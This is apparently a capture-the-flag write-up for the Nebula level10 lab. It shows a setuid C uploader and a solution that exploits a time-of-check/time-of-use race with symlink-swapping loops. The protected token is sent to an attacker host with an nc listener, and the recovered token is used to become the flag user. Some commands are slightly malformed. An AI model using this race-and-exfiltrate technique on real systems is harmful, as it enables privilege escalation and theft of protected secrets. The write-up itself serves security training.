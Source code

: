 * Level10
  :PROPERTIES:
  :CUSTOM_ID: level10
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  The setuid binary at /home/flag10/flag10 binary will upload any file
  given, as long as it meets the requirements of the access() system
  call.
#+end_quote

#+begin_quote
  To do this level, log in as the level10 account with the password
  level10. Files for this level can be found in /home/flag10.
#+end_quote

#+begin_src C
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
#+end_src

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
The binary first checks to see if the user running the problem has
access to the file (line24) It then assumes for the rest of the
execution of the program, that we still have access to it. To trick this
i do the following.

#+begin_example
level10@nebula:/home/flag10$ while :; do ln -fs /tmp/token /tmp/token10; ln -fs /home/flag10/token /tmp/token10; don

level10@nebula:/home/flag10$ while :; do nice -n 20 ./flag10 192.168.1.1;done
#+end_example

then on my attacker

#+begin_example
{17-01-09 12:18}0cc7a14b8ffe:~ root# while :; do nc -l -p 18211 >> out.txt; done
{17-01-09 12:18}0cc7a14b8ffe:~ root# tail -f out.txt | grep -v ".oO Oo."
#+end_example

I found this to be a real challange, so its something i need to back and
review, but it did work and i found the token

#+begin_example
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
#+end_example

then =su= to the flag user and get the flag

#+begin_example
level10@nebula:/home/flag10$ su flag10
Password: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
sh-4.2$ getflag
You have successfully executed getflag on a target account
#+end_example
